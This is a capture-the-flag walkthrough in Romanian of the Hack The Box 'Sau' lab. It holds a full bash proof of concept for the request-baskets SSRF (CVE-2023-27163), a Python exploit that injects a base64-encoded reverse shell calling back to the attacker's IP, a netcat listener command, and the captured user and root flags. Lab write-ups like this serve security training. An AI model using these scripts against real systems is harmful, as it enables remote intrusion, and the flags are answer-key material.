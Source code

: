 1. Scanam mașina pentru a vedea porturile deschise.
```shell
sudo nmap -sSCV -T 4 10.10.11.224 -oN ~/Hackthebox/Labs/Sau/nmap.scan
```
![[Pasted image 20231107075853.png]]
Vedem următoarea informație sunt deschise 3 porturi [[ssh]] el e si pe portul 22 [[http request smuggling]] pe 80 si încă ceva pe 5555 la priva vedere este tot un [[http request smuggling]].
2. Accesam [[IP]] cu portul suspect:
![[Pasted image 20231107080107.png]]
3. Cel mai suspect este următoarea informație->
![[Pasted image 20231107131300.png]]
`request-baskets| Version 1.2.1`
Aceasta versiune este vulnerabila pentru tipul de atac [[SSRF]] Server-Side Request Forgery.
Daca facem un search pe google.com vom găsi vulnerabilitatea data.
```bash
#!/bin/bash  
  
echo -e "Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163\n";  
  
if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then  
   help="Usage: CVE-2023-27163.sh <URL> <TARGET>\n\n";  
   help+="This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,\n";  
   help+="which will act as a proxy to other services and servers.\n\n";  
   help+="Arguments:\n" \  
   help+=" URL            main path (/) of the server (eg. http://127.0.0.1:5000/)\n";  
   help+=" TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)\n\n";  
   help+="More info at https://github.com/entr0pie/CVE-2023-27163.";  
  
   echo -e "$help";  
   exit 1;  
fi  
  
URL=$1  
ATTACKER_SERVER=$2  
  
if [ "${URL: -1}" != "/" ]; then  
   URL="$URL/";  
fi;  
  
BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");  
  
API_URL="$URL""api/baskets/$BASKET_NAME";  
  
PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";  
  
echo "> Creating the \"$BASKET_NAME\" proxy basket...";  
  
if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then  
   echo "> FATAL: Could not properly request $API_URL. Is the server online?";  
   exit 1;  
fi;  
  
BASKET_URL="$URL$BASKET_NAME";  
  
echo "> Basket created!";  
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";  
  
if ! jq --help 1>/dev/null; then  
   echo "> Response body (Authorization): $response";  
else  
   echo "> Authorization: $(echo "$response" | jq -r ".token")";  
fi;  
  
exit 0;
```
Jos mai este si fișierul.
![[CVE-2023-27163.sh]]
4. După instrucții facem un start la script
```shell
./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![[Pasted image 20231107132245.png]]
In cazul nostru primul link este victima cu portul 55555 al 2 link este [[IP]] adresa pentru localhost.
Accesăm linkul pentru ca sa vedem ce este pe pagina care este pe portul 80.
![[Pasted image 20231107132422.png]]
5. Pe google cu un seach primim 
![[Pasted image 20231107134026.png]]
 Aici este exploitul. 
```python
 '''  
 ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███     
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒  
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒  
 ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄     
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒  
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░  
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░  
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░    
     ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░        
'''  
  
import sys;  
import os;  
import base64;  
  
def main():  
       listening_IP = None  
       listening_PORT = None  
       target_URL = None  
  
       if len(sys.argv) != 4:  
               print("Error. Needs listening IP, PORT and target URL.")  
               return(-1)  
  
       listening_IP = sys.argv[1]  
       listening_PORT = sys.argv[2]  
       target_URL = sys.argv[3] + "/login"  
       print("Running exploit on " + str(target_URL))  
       curl_cmd(listening_IP, listening_PORT, target_URL)  
  
def curl_cmd(my_ip, my_port, target_url):  
       payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.  
AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno  
(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''  
       encoded_payload = base64.b64encode(payload.encode()).decode()  # enco  
de the payload in Base64  
       command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_pa  
yload}\"+|+base64+-d+|+sh`'"  
       print("comm:",command)  
       os.system(command)  
  
if __name__ == "__main__":  
 main()
```
Fisierul complex
![[exploit.py]]
5. Rulam vulnerabilitatea ca sa primim revers shell-ul nostru:
```bash
python3 exploit.py 10.10.14.25 9001 http://10.10.  
11.224:55555/tgetkl
```
Acum aven nevoie sa ascultam traficul:
```bash
nc -lvnp 9001
```
![[Pasted image 20231107191913.png]]
![[Pasted image 20231107192048.png]]
Flag user: `c28c26065508f8300bfd03bdb7069ffb`
6. Rulam comanda:
```bash
sudo -l 
```
![[Pasted image 20231107192150.png]]
Avem si posibilitatea sa primim root:
![[Pasted image 20231107192249.png]]
Deci avem root:
![[Pasted image 20231107192537.png]]
![[Pasted image 20231107192548.png]]
![[Pasted image 20231107192611.png]]
Si flagul final `21586ecaa63bc52bda009a0627d9aeaa`
